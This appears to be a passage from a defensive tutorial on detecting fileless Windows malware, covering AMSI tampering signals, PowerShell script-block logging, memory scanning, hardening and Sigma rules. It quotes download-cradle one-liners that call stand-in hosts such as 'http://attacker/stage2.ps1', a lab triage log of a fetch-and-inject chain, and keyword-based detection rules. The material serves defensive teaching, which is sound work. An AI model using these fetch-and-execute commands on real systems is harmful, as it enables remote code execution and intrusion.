**Reflective DLL loading** is the native cousin: instead of the OS loader mapping a DLL from disk (which generates an image-load event with a file path), a custom loader maps the DLL's sections into memory manually and fixes up imports/relocations itself, so there is no `LoadLibrary`-of-a-file event. **Detection:** the absence of a normal image-load event for executable memory that is nonetheless running code is itself the tell — memory scanning finds executable private memory with PE-like headers and no `MODULE` backing, which EDRs specifically hunt (and which tools like `pe-sieve`/`Moneta`/`hollows_hunter` are built to surface — see the lab and practice list). The recurring pattern: **avoiding the disk-based sensor pushes the artifact onto the memory-based sensor, which is watching precisely because attackers avoid disk.**

### 5.1 `execute-assembly` and the Telemetry It Cannot Avoid

The post-exploitation pattern most associated with in-memory .NET is **`execute-assembly`** — the ability (popularised by commercial C2 and cloned in open tools) to run a compiled C# tool entirely in a beacon's process memory, so operators can run the whole ecosystem of .NET offensive tools (the kind studied defensively — Rubeus, SharpHound, Seatbelt) without dropping an `.exe`. We describe it only to enumerate its telemetry, which is the defender's leverage.

Even done well, `execute-assembly`-style loading produces a characteristic cluster of signals:
- **CLR loaded into a process that had no reason to host .NET.** If a beacon injected into a native process (say `notepad.exe`) then loads the CLR to run an assembly, the appearance of `clr.dll`/`clrjit.dll` in that process is anomalous — Sysmon Event ID 7 (image load) captures it.
- **ETW assembly-load from memory, no path** (Part 5) — the assembly has no on-disk backing.
- **AMSI-for-.NET** scans the assembly bytes (4.8+).
- **Named-pipe / injection artifacts** if the loader injected first (Chapter 5).



**Detection heuristic:** "a normally-native process suddenly hosting the CLR and loading a pathless assembly" is one of the highest-value in-memory-.NET hunts, because legitimate .NET apps host the CLR from the start and load assemblies from disk paths. **Red-team note (named, not weaponized):** mature operators know this and prefer to inject into processes that *already* host .NET (to blend the CLR load), which tells the defender to weight the *pathless assembly-load* and *AMSI-for-.NET* signals more heavily than the CLR-load signal in .NET-heavy environments.

### 5.2 Detecting AMSI Tampering Specifically

Because AMSI tampering (Part 4, Class A) is so central to modern tradecraft, it is worth stating exactly what a defender watches for — the concrete, benignly-describable tells, none of which is a bypass recipe:

- **Memory modification of `amsi.dll` in a script host.** EDR memory-integrity checks and the Threat-Intelligence ETW provider surface writes to the code region of a loaded security module. A `VirtualProtect` flipping `amsi.dll`'s code to writable, followed by a write, is the canonical pattern.
- **Signatured tamper strings.** The best-known public AMSI-patch byte sequences are themselves now AMSI/Defender signatures — so an unmodified copy of a well-known bypass is often *caught by AMSI on its way in*, a pleasing irony. This is why "public bypass" has a short shelf life.
- **AMSI init failures / provider health.** If a process forces `AmsiInitialize` to fail, the AMSI subsystem and EDR can log the abnormal initialization result.
- **`amsiInitFailed`-style reflection in 4104.** Attempts to reach AMSI internals from PowerShell appear, decoded, in script-block logs — because the manipulation is itself a script block.

```
# Illustrative EDR/Defender alert shape for an AMSI tamper attempt (benign description)
Alert: Behavior:Win32/AmsiTamper
Process: powershell.exe (PID 6120)
Detail:  In-memory modification of amsi.dll detected; AMSI scan integrity check failed
Action:  Blocked / Quarantined session
```

**The defensive doctrine restated:** you rarely need to detect the *specific* bypass — you detect the *category* of action it requires (writing to a security module's memory, downgrading the engine, forcing init failure), each of which is high-signal and low-false-positive. And behind all of it sits script-block logging, which recorded the attempt regardless. This is defence-in-depth doing exactly what it is designed to do: no single evasion silences every sensor.

## Part 6: Script-Block Logging and ETW — the Backstop Behind AMSI

If AMSI is the blade at the moment of execution, **PowerShell script-block logging** and **ETW** are the recorders that keep running even when AMSI is blinded — which is why a mature defence never relies on AMSI alone. These are the most valuable, cheapest wins in fileless detection, and every Windows shop should enable them.

**Script-block logging (Event ID 4104)** records the *de-obfuscated* text of every PowerShell script block *as it is compiled to run* — independently of AMSI. Enable it via Group Policy (*Administrative Templates → Windows PowerShell → Turn on PowerShell Script Block Logging*) or the registry. Once on, even an attacker who fully neuters AMSI still writes the reconstructed script into the event log, because logging happens in the engine at compile time. A benign illustration of what a defender sees:

```
Log: Microsoft-Windows-PowerShell/Operational
Event ID: 4104  (Execute a Remote Command / Script Block)
Message:
    Creating Scriptblock text (1 of 1):
    $a = 'AMSI Test Sam' + 'ple: 7e72c3ce-861b-4339-8740-0ac1484c1386'
    $a
    ScriptBlock ID: 6b4a...  Path:
```

Notice the log shows the **reassembled, de-obfuscated** content — the concatenation is resolved — which is exactly why 4104 is gold for hunting obfuscated PowerShell. **Module logging (Event ID 4103)** and **transcription** add pipeline-level and full-session capture respectively.

**ETW providers** relevant to fileless hunting:
- **Microsoft-Windows-PowerShell** — the source of 4104/4103.
- **.NET CLR / assembly-load provider** — in-memory assembly loads (Part 5).
- **Microsoft-Windows-Threat-Intelligence** — kernel-sourced sensitive memory/syscall events (an EDR-only provider) that surfaces injection and memory-protection changes.
- **DNS-Client, WinINet** — the outbound network a fileless payload eventually needs for C2.



**The defensive doctrine:** AMSI can be tampered with in-process, but script-block logging is written by the engine and shipped off-box to a SIEM, so it survives in-process tampering — put the two together and you have both prevention (AMSI blocks) and detection (4104 records), and defeating one does not defeat the other.

## Part 7: Hands-On Lab — Detecting Fileless Activity (Benign)

This lab is entirely defensive and benign: we enable the logging, generate harmless PowerShell that *looks like* the download-cradle pattern attackers use (but downloads nothing malicious), and read the telemetry the way a SOC analyst would. Run it on a lab Windows VM you own.

### Step 1 — Turn on the sensors

```powershell
# Enable PowerShell Script Block Logging via registry (lab machine you own)
$base = 'HKLM:\SOFTWARE\Wow6432Node\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging'
New-Item $base -Force | Out-Null
Set-ItemProperty $base -Name EnableScriptBlockLogging -Value 1
Write-Host "Script-block logging enabled (Event ID 4104)."
```

### Step 2 — Generate a benign "cradle-shaped" event

The classic malicious pattern is `IEX (New-Object Net.WebClient).DownloadString('http://evil/x')`. We produce the *same shape* against a harmless local string so the telemetry looks realistic without touching anything bad:

```powershell
# BENIGN: mimic the IEX/download-cradle SHAPE with a harmless in-memory string. Nothing is downloaded.
$fakeRemote = "Write-Host 'benign payload executed in memory'"
IEX $fakeRemote
```

Realistic console output:

```
benign payload executed in memory
```

### Step 3 — Read what the defender captured

```powershell
# Pull the last few script-block events
Get-WinEvent -LogName 'Microsoft-Windows-PowerShell/Operational' -MaxEvents 5 |
    Where-Object Id -eq 4104 |
    ForEach-Object { $_.Message.Split("`n")[0..3] -join "`n"; "---" }
```

Realistic (abbreviated) output:

```
Creating Scriptblock text (1 of 1):
IEX $fakeRemote
ScriptBlock ID: 1f9c...
---
Creating Scriptblock text (1 of 1):
Write-Host 'benign payload executed in memory'
ScriptBlock ID: 2a03...
```

**Read the two events together:** the log captured both the `IEX` call *and* the string it executed, as separate script blocks. That is the hunt: `IEX`/`Invoke-Expression` of a variable or downloaded string, `DownloadString`/`DownloadData`, `FromBase64String`, `-enc`/`-EncodedCommand`, `Reflection.Assembly`::Load — any of these in a 4104 event is a high-signal lead. **CTF/purple-team tie-in:** blue-team CTFs (e.g. Blue Team Labs Online, CyberDefenders) hand you exactly these logs and ask you to reconstruct the intrusion from 4104 + Sysmon.

### Step 4 — Correlate with Sysmon process telemetry

```powershell
# If Sysmon is installed, the process-create event carries the full command line
Get-WinEvent -LogName 'Microsoft-Windows-Sysmon/Operational' -MaxEvents 20 |
    Where-Object Id -eq 1 |
    Where-Object { $_.Message -match 'powershell' } |
    Select-Object -First 3 | ForEach-Object { ($_.Message -split "`n" | Select-String 'CommandLine') }
```

Realistic output:

```
CommandLine: powershell.exe -NoProfile -Command "IEX $fakeRemote"
CommandLine: powershell.exe -enc VwByAGkAdABlAC0ASABvAHMAdAAgAA==
```

The `-enc` blob decodes (as in Chapter 3, Part 11d) to reveal the real command — the encoding is a labelled, decodable artifact, not a disguise. **Correlation is the point:** Sysmon Event ID 1 gives you the *process and command line*, 4104 gives you the *decoded script content*, and ETW assembly-load gives you *in-memory .NET* — three angles on the same fileless action, so defeating one still leaves two.

## Part 7b: The Download Cradle, Dissected

Because the **download cradle** is the single most common fileless pattern, and because understanding it end to end teaches most of what you need to hunt PowerShell abuse, we dissect it — benignly and in slow motion. The canonical malicious form is one line:

```
IEX (New-Object Net.WebClient).DownloadString('http://attacker/stage2.ps1')
```

Break it into its parts, each of which is a distinct detection opportunity:

- `New-Object Net.WebClient` — instantiate an HTTP client **in memory**. No file, but the .NET type creation is visible to ETW and the object appears in a 4104 script block.
- `.DownloadString('http://...')` — an **outbound HTTP GET from `powershell.exe`**. That is the single loudest signal: a script interpreter making a raw web request to a non-Microsoft host is abnormal in most environments, and it is visible to Sysmon Event ID 3 (network connect), proxy logs, DNS logs, and EDR.
- `IEX` / `Invoke-Expression` — **execute the downloaded text as code**. This is what makes it fileless: stage 2 never lands on disk, it is a string handed straight to the engine. AMSI scans it; 4104 records it.



The lesson is that a "stealthy" one-liner is actually **loud across three sensors at once** — network, AMSI, and script-block logging. Modern variants swap `DownloadString` for `Invoke-WebRequest`, `Net.WebClient` for `System.Net.Http.HttpClient`, `IEX` for `.Invoke()` or `&`, and add base64/obfuscation — but every variant still (a) reaches the network and (b) reconstructs code to execute, so the two anchor detections survive the cosmetic changes. **This is the Chapter 3 principle again:** cosmetic obfuscation of the cradle defeats a literal string match but not the behavioural signals of "interpreter made a web request and then ran what it got."

Variants a hunter should normalise to the same behaviour:

| Cradle variant | Same underlying behaviour | Still visible on |
|---|---|---|
| `Net.WebClient.DownloadString` | HTTP GET → run text | Sysmon 3, 4104, AMSI |
| `Invoke-WebRequest ... \| IEX` | HTTP GET → run text | Sysmon 3, 4104, AMSI |
| `HttpClient.GetStringAsync` | HTTP GET → run text | ETW .NET, Sysmon 3, AMSI |
| `bitsadmin`/`certutil -urlcache` | LOLBin fetch → run/decode | Sysmon 1 (LOLBin cmdline), 3, 11 |
| base64 `-enc` wrapper | decode → run | 4104 decoded text, Sysmon 1 |

## Part 7c: Other AMSI Consumers and the "Unmanaged PowerShell" Idea

PowerShell is the loudest AMSI consumer but not the only one, and attackers have historically tried to reach PowerShell's capabilities *without* running `powershell.exe* — a concept worth understanding defensively because it changes which process you look at.

- **Office VBA macros** call AMSI at runtime for macro content, so an obfuscated macro is scanned when it executes, not just when the document is scanned statically. Detection: `winword.exe`/`excel.exe` spawning script hosts, plus AMSI macro verdicts.
- **Windows Script Host** (`wscript.exe`/`cscript.exe`) submits VBScript/JScript to AMSI; `.hta` files via `mshta.exe` likewise. These are classic phishing execution vectors, and AMSI covers the script content.
- **"Unmanaged PowerShell"** is the concept of hosting the PowerShell *engine* (the `System.Management.Automation` assembly) inside a *non-`powershell.exe`* process — so a benign-looking process runs PowerShell commands without the `powershell.exe` image ever appearing. **Why it does not escape detection:** AMSI is integrated at the *engine* layer, not at the `powershell.exe` binary, so hosting the engine elsewhere still routes script content through `AmsiScanBuffer`; and loading `System.Management.Automation` into an unexpected process is itself an ETW assembly-load anomaly. The lesson for defenders: **do not key your PowerShell detections solely on the `powershell.exe` image name** — key them on the engine (script-block logging fires regardless of host) and on `System.Management.Automation` being loaded into odd processes.



The unifying defensive principle across every AMSI consumer: **AMSI sits at the content/engine layer, so it does not care which process or file delivered the content** — which is exactly why "run it from a different host binary" reaches AMSI anyway, and why your detections should follow the engine and the content, never just the executable name.

## Part 7d: Memory Scanning in Practice — Finding What Never Hit Disk

The final runtime sensor, and the decisive one for the fully-memory-resident end of the spectrum (Part 1), is **memory scanning**: walking a process's virtual address space looking for the tells of injected or reflectively-loaded code. We keep this defensive and conceptual, using the open-source hunting tools a blue-teamer or analyst runs against a *live, benign* process to learn the workflow.

What a memory scanner looks for:
- **Private executable memory with no file backing** — normal code lives in memory mapped from a DLL/EXE on disk (an *image* mapping). Injected shellcode and reflectively-loaded DLLs live in *private* memory that is executable but backed by no file. That combination is the single strongest tell.
- **RWX regions** — memory that is simultaneously writable and executable. Legitimate code is almost never RWX (it is RX after loading); malware often allocates RWX for convenience.
- **Floating PE headers** — an `MZ`/`PE` header sitting in a heap or private allocation means a module was mapped manually, bypassing the loader.
- **Hollowed modules** — a legitimately-mapped image whose in-memory bytes no longer match the file on disk (Chapter 5's process hollowing).

A benign demonstration of the analyst workflow with `pe-sieve` (a free tool that scans a process for these anomalies) against a normal process:

```
# BENIGN: scan a normal running process to learn the tool's output. Nothing malicious here.
pe-sieve64.exe /pid 4812

PID: 4812
Output dir: process_4812
Scanning workingset: 233 memory regions.
[*] Scanning: C:\Windows\System32\notepad.exe
[*] Scanning: C:\Windows\System32\ntdll.dll
...
Summary:
  Total scanned:      233
  Suspicious:           0
  Replaced:             0
  Hdrs modified:        0
  Implanted:            0
  Implanted PE:         0
  Implanted shc:        0
```

A clean process shows `Suspicious: 0`. On a process carrying injected code, `pe-sieve` reports `Implanted shc` (implanted shellcode) or `Implanted PE`, dumps the offending region, and flags hollowed modules where in-memory ≠ on-disk. **The workflow that transfers to real incidents:** enumerate processes → scan suspicious ones (or all, on a schedule) with `pe-sieve`/`hollows_hunter`/`Moneta` → triage any implanted regions by dumping and analysing them exactly as in Chapter 3's unpack-then-analyze arc. **This is why "fileless" ends here:** the CPU must execute real instructions, so the code has to exist, executable, in memory — and memory scanning inspects precisely that.

## Part 7e: Hardening — Constrained Language Mode, WDAC, and Logging Depth

Detection tells you an intrusion happened; **hardening reduces what is possible in the first place**, and for fileless/PowerShell abuse there are three high-leverage controls worth understanding in depth.

**Constrained Language Mode (CLM).** PowerShell can run in `FullLanguage` (everything) or `ConstrainedLanguage`, which blocks the exact primitives fileless tradecraft relies on: arbitrary .NET type instantiation (`New-Object Net.WebClient`), direct method calls on many types, `Add-Type` compilation, and Win32 API access via reflection. In CLM, a huge fraction of in-memory .NET and API-calling techniques simply throw. **The catch:** CLM is only a real boundary when enforced by **application control** (WDAC/AppLocker) — on its own it can be toggled by anyone who can start a fresh runspace. So CLM and application control are a *pair*: WDAC decides which code is trusted, and untrusted code is forced into CLM.

```powershell
# Check the current language mode (benign, informational)
$ExecutionContext.SessionState.LanguageMode
```

Realistic output on a hardened host:

```
ConstrainedLanguage
```

**Application control (WDAC / AppLocker).** By allow-listing which executables, DLLs, MSIs, and scripts may run (by publisher, hash, or path), you raise the cost of every LOLBin and dropper: an unsigned script or an unexpected binary is refused, and — crucially — untrusted PowerShell drops into CLM automatically. WDAC is the stronger, kernel-enforced modern option; AppLocker is the older, easier-to-deploy one. Neither is a silver bullet (signed LOLBins remain a challenge, which is why the LOLBAS project catalogues them for defenders), but together with CLM they convert "run anything in memory" into "run only trusted code, and even that in a reduced language."

**Logging depth.** The three PowerShell logging tiers stack, and you want all three centralised:

| Tier | Event | Captures | Value |
|---|---|---|---|
| Script Block Logging | 4104 | de-obfuscated script blocks at compile | highest — survives AMSI tamper |
| Module Logging | 4103 | pipeline execution details per module | command/parameter context |
| Transcription | file | full input/output of sessions | complete session reconstruction |

**The hardening doctrine in one line:** *WDAC + CLM to shrink what can run, AMSI to block known-bad at execution, and 4104/4103/transcription + Sysmon + ETW shipped off-box to record everything for when prevention fails.* Layered, so bypassing any one layer still leaves the others intact — the same defence-in-depth logic that runs through the entire notebook.

### Step 5 — Decode an `-enc` command like an analyst

When Sysmon Event ID 1 shows `powershell.exe -enc <blob>`, decode it (benign, defensive):

```bash
# -enc uses UTF-16LE base64. On Linux/WSL:
echo 'VwByAGkAdABlAC0ASABvAHMAdAAgACIAaABpACIA' | base64 -d | iconv -f UTF-16LE -t UTF-8; echo
```

Realistic output:

```
Write-Host "hi"
```

```powershell
# Or in PowerShell itself:
[Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('VwByAGkAdABlAC0ASABvAHMAdAAgACIAaABpACIA'))
```

The `-enc` argument is never a disguise — it is a mechanically decodable, high-signal artifact. A SOC decodes every `-enc` it sees; AMSI and 4104 saw the decoded form anyway. **This closes the loop with Chapter 3:** encoding hides a literal from a naive scan while simultaneously advertising itself to anyone inspecting the command line or the runtime.

## Part 8: Detection & Defense Angle (Consolidated)

Bringing the whole chapter together: because fileless techniques evade the *file* surface, defence is about instrumenting the *runtime* surface densely and correlating across sensors so that evading one lights up another.

**Enable and centralise these (in priority order):**
- **AMSI** — keep it on for PowerShell, WSH, Office VBA, and .NET; monitor for AMSI-tamper and initialization-failure signals.
- **PowerShell script-block logging (4104)** + **module logging (4103)** + **transcription**, shipped to a SIEM. This is the highest-value fileless control and survives in-process AMSI tampering.
- **Sysmon** — Event ID 1 (process + command line + hashes), 7 (image load), 8 (CreateRemoteThread — injection), 10 (process access), 25 (process tampering), 11/12/13 (file/registry for registry-resident payloads).
- **ETW** — CLR assembly-load (in-memory .NET), DNS/WinINet (C2 egress), and (via EDR) the Threat-Intelligence provider for kernel memory events.
- **EDR memory scanning** — RWX and unbacked-executable memory, floating PE headers, reflectively-loaded modules (`pe-sieve`/`Moneta`/`hollows_hunter` for lab hunting).

**Hunt hypotheses (concrete):**
- PowerShell **v2 engine start** anywhere → near-certain evasion attempt (AMSI class C).
- `VirtualProtect`/memory patch on **`amsi.dll`** → AMSI tamper (class A).
- 4104 containing `IEX`+`DownloadString`, `FromBase64String`, `Reflection.Assembly`, `-enc` → obfuscated fileless execution.
- **LOLBins** with abnormal args/parents: `winword.exe`→`powershell.exe`, `mshta` fetching remote content, `rundll32`/`regsvr32` with URLs, `wmic ... /format:` remote XSL.
- Large **encoded registry writes** followed by a LOLBin reading them → registry-resident payload.

**Harden the surface:**
- Remove the **PowerShell v2** feature; enforce **Constrained Language Mode** where feasible (blunts many script techniques).
- **Application control** (WDAC/AppLocker) to constrain which binaries and scripts run — raises the cost of LOLBin abuse.
- Keep Defender/AMSI providers and .NET **patched** (each release re-signatures known tamper patterns).

**MITRE ATT&CK anchors:** **T1059.001** (PowerShell), **T1562.001** (Impair Defenses — AMSI/ETW tampering), **T1620** (Reflective Code Loading), **T1055** (Process Injection — Chapter 5), **T1218** (System Binary Proxy Execution / LOLBins), **T1112** (Modify Registry for registry-resident payloads).

| Technique | Disk artifact | Runtime tell | ATT&CK |
|---|---|---|---|
| Fileless PowerShell cradle | none / tiny script | 4104 decoded text, Sysmon 1 cmdline | T1059.001 |
| AMSI tamper (in-proc) | none | VirtualProtect on amsi.dll, signatured strings | T1562.001 |
| In-memory .NET assembly | none | ETW assembly-load, AMSI (4.8+) | T1620 |
| Reflective DLL load | none | unbacked exec memory, no image-load event | T1620 |
| LOLBin abuse | benign signed EXE | abnormal args/parent, network from LOLBin | T1218 |
| Registry-resident payload | none (hive) | large encoded reg write + LOLBin read | T1112 |

## Part 8b: Writing a Detection — From Behaviour to Sigma Rule

Detection engineering is the skill that turns everything above into something that fires in a SIEM at 3 a.m. The workflow is: pick a behaviour the attacker cannot avoid → identify the log source that captures it → express it as a portable rule → tune out the benign. **Sigma** is the vendor-neutral rule format (YAML) that compiles to Splunk/Elastic/Sentinel queries, so we use it. Here is a benign, illustrative rule for the download-cradle behaviour from Part 7b, keyed on the *decoded* 4104 content so obfuscation does not evade it:

```yaml
title: PowerShell Download Cradle via Script Block Logging
status: experimental
description: Detects in-memory download-and-execute patterns in decoded PowerShell script blocks
logsource:
    product: windows
    service: powershell
    definition: Requires Script Block Logging (EID 4104)
detection:
    selection_download:
        ScriptBlockText|contains:
            - 'DownloadString'
            - 'DownloadData'
            - 'Invoke-WebRequest'
            - 'Net.WebClient'
            - 'Net.Http.HttpClient'
    selection_exec:
        ScriptBlockText|contains:
            - 'IEX'
            - 'Invoke-Expression'
            - '.Invoke('
    condition: selection_download and selection_exec
falsepositives:
    - Legitimate software distribution / admin scripts that fetch and run modules
level: high
```

The rule's logic mirrors the Part 7b dissection: fire when a script block **both** fetches from the network **and** executes the result. Because it reads the *decoded* 4104 text, wrapping the cradle in base64 or string-splitting does not help the attacker — the engine logged the reassembled form. **Tuning is where detection engineering earns its keep:** in an environment where a config-management tool legitimately fetches-and-runs, you add an exclusion for that tool's signed script path or parent process, rather than dropping the rule.

A second rule, for the highest-fidelity AMSI-class-C signal (PowerShell v2 start), needs almost no tuning because it is nearly always malicious:

```yaml
title: PowerShell v2 Engine Start (AMSI Downgrade)
logsource:
    product: windows
    service: powershell-classic
detection:
    selection:
        EngineVersion|startswith: '2.'
    condition: selection
falsepositives:
    - Ancient legacy software explicitly requiring PSv2 (rare; document and allowlist)
level: high
```

**The meta-point:** notice both rules key on behaviours the attacker *must* produce (fetch+exec; downgrade to escape AMSI), captured by sensors that survive obfuscation and in-process tampering. That is the difference between a durable detection and a brittle one — the same static-vs-behavioural lesson from Chapter 3, applied to rule-writing.

## Part 8c: A Worked Triage — Reconstructing a Fileless Chain from Logs

To close the loop, here is how an analyst reconstructs a (benign, lab-generated) fileless chain purely from telemetry, with no file to examine — the exact muscle the practice labs build. Suppose the SIEM surfaces these correlated events, ordered by time:

```
1. Sysmon EID 1  parent=winword.exe  image=powershell.exe
   CommandLine: powershell -nop -w hidden -enc SQBFAFgA...
2. PowerShell 4104  ScriptBlockText:
   IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.5/s2')
3. Sysmon EID 3  image=powershell.exe  DestinationIp=10.10.10.5  DestinationPort=80
4. PowerShell 4104  ScriptBlockText:  [Reflection.Assembly]::Load($bytes); ...
5. ETW CLR  AssemblyLoad  from memory, no path  process=powershell.exe
6. Sysmon EID 8  SourceImage=powershell.exe  TargetImage=explorer.exe  (CreateRemoteThread)
```

Read as a story, this is a textbook chain: **(1)** a Word document spawned hidden, encoded PowerShell — the `winword.exe → powershell.exe` parent/child plus `-enc -w hidden` is already a high-confidence phishing-execution alert; **(2)** the decoded script (recovered from 4104, not from the `-enc` blob) is a download cradle; **(3)** confirms the outbound fetch to a bare IP on port 80; **(4–5)** stage 2 reflectively loaded a .NET assembly *from memory* — visible via 4104 and CLR ETW despite never hitting disk; **(6)** the assembly injected into `explorer.exe` (Chapter 5). At no point did a malicious file exist on disk, yet the intrusion is fully reconstructed from six correlated events across four sensors.

